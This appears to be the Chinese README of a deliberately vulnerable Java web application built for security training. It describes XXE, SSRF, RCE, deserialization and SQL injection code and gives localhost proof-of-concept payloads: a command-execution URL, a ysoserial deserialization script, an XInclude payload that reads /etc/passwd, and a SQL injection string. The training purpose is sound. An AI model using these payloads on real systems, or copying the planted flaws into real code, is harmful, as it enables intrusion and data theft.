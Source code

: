 # Java Security Code

## 介绍

该项目也可以叫做Java Vulnerability Code(Java漏洞代码)。

每个漏洞类型代码默认存在安全漏洞（除非本身不存在漏洞），相关修复代码在注释里。具体可查看每个漏洞代码和注释。

## 漏洞代码

- [XXE](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java)
- [SSRF](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSRF.java)
- [URL重定向](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/URLRedirect.java)
- [IP伪造](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/IPForge.java)
- [XSS](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XSS.java)
- [CRLF注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/CRLFInjection.java)
- [远程命令执行](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Rce.java)
- [反序列化](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Deserialize.java)
- [文件上传](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/FileUpload.java)
- [SQL注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SQLI.java)

## 如何运行


### Tomcat

1. 生成war包 `mvn clean package`
2. 将target目录的war包，cp到Tomcat的webapps目录
3. 重启Tomcat应用


```
http://localhost:8080/java-sec-code-1.0.0/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```

### IDEA

如果想在IDEA中直接运行，需要在IDEA中添加Tomcat配置，步骤如下：

```
Run -> Edit Configurations -> 添加TomcatServer(Local) -> Server中配置Tomcat路径 -> Deployment中添加Artifact选择java-sec-code:war exploded
```

![tomcat](https://github.com/JoyChou93/java-sec-code/raw/master/idea-tomcat.png)

配置完成后，右上角直接点击run，即可运行。

```
http://localhost:8080/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```


## SSRF

针对SSRF具体利用，可以阅读我写的[这篇博文](https://joychou.org/java/javassrf.html)。

## 反序列化

打包ysoserial

``` 
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests
```

执行exp

```python
#coding: utf-8
#author: JoyChou
#date:   2018.07.17

import requests
import subprocess

def poc(url , gadget, command):
	ys_filepath = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
	popen = subprocess.Popen(['java', '-jar', ys_filepath, gadget, command], stdout=subprocess.PIPE)
	payload = popen.stdout.read()
	r = requests.post(url, data=payload, timeout=5)

if __name__ == '__main__':
	poc('http://127.0.0.1:8080/deserialize/test', 'CommonsCollections5', 'open -a Calculator')
```

## 文件上传

目前这类漏洞在spring里非常少，原因有两点：
1. 大多数公司上传的文件都会到cdn
2. spring的jsp文件必须在web-inf目录下才能执行

除非，可以上传war包到tomcat的webapps目录。所以就不YY写漏洞了。

访问`http://localhost:8080/file/`进行文件上传，上传成功后，再访问`http://localhost:8080/image/上传的文件名`可访问上传后的文件。

## XXE

### 支持Xinclude的XXE

2018年08月22日更新支持XInclude的XXE漏洞代码，详情见代码。

POC

```xml
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

URL编码后的payload

``` 
http://localhost:8080/xxe/DocumentBuilder_xinclude?xml=%3C%3fxml+version%3d%221.0%22+%3f%3E%0d%0a%3Croot+xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3E%0d%0a+%3Cxi%3ainclude+href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22+parse%3d%22text%22%2f%3E%0d%0a%3C%2froot%3E
```

详情可以查看[浅析xml之xinclude & xslt](https://www.anquanke.com/post/id/156227)

## SQL注入

### POC

访问

``` 
http://localhost:8080/sqli/jdbc?name=joychou' or 'a'='a
```

返回
```
joychou: 123 wilson: 456 lightless: 789
```

正常访问
```
http://localhost:8080/sqli/jdbc?name=joychou
```

返回

``` 
joychou: 123
```
### 数据库配置

```sql
/*
 Navicat Premium Data Transfer

 Source Server         : localhost
 Source Server Type    : MySQL
 Source Server Version : 80012
 Source Host           : localhost:3306
 Source Schema         : sectest

 Target Server Type    : MySQL
 Target Server Version : 80012
 File Encoding         : 65001

 Date: 22/08/2018 21:09:57
*/

SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for users
-- ----------------------------
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `name` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  `isAdmin` varchar(255) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;

-- ----------------------------
-- Records of users
-- ----------------------------
BEGIN;
INSERT INTO `users` VALUES ('joychou', '123', '1');
INSERT INTO `users` VALUES ('wilson', '456', '0');
INSERT INTO `users` VALUES ('lightless', '789', '0');
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```

### 说明

SQL注入修复方式采用预处理方式，修复见代码。
Mybatis的`#{}`也是预处理方式处理SQL注入。